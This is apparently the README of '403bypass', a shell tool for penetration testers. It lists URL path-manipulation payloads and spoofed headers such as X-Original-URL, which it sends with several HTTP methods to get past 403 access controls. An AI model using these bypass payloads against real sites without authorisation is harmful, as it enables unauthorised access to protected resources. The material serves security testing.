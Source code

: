 # 403bypass

A tool that automates 403 bypassing techniques. 

# Usage

```bash
echo "https://target.com/this/is/a/403/page" | 403bypass
```

```bash
cat urls.txt | 403bypass
```

# Installation

1 - Install httpx (https://github.com/projectdiscovery/httpx)

2 - `curl https://raw.githubusercontent.com/felipecaon/403bypass/main/403bypass.sh > /usr/local/bin/403bypass`

3 - `chmod +x /usr/local/bin/403bypass`

# Workflow

Generates a list of known payloads:

```
http://example.com
http://example.com/.
http://example.com/./
http://example.com/*
http://example.com..;/
http://example.com;/
http://example.com/%20
http://example.com/%2e
http://example.com/~
http://example.com/%09
http://example.com/.json
http://example.com/<encoded>
http://example.com.json
http://<domain-api>.com
http://example.com/.;/
http://example.com/#
http://example.com/?gg
http://example.com/%20/
http://example.com/%2e/
http://example.com/./
http://example.com//
https://example.com
```

The payloads above are requested using `GET`, `POST` and `PUT` methods. Additionaly, every request is made using a potentially vulnerable header from the list:

## Headers:
```
X-Forwarded-For
X-Forwarded-Host
X-Custom-IP-Authorization
X-Custom-IP-Authorization+..;/
X-Original-URL
X-Rewrite-URL
X-Originating-IP
X-Remote-IP
X-Client-IP
X-Host
X-Remote-Addr
```

# Contributing

Feel free to open issue or PR with additional payloads.


# Credits

Main structure is made by Raywando, https://github.com/Raywando/4xxbypass
For a more complete set, go to https://github.com/Dheerajmadhukar/4-ZERO-3/blob/main/403-bypass.sh
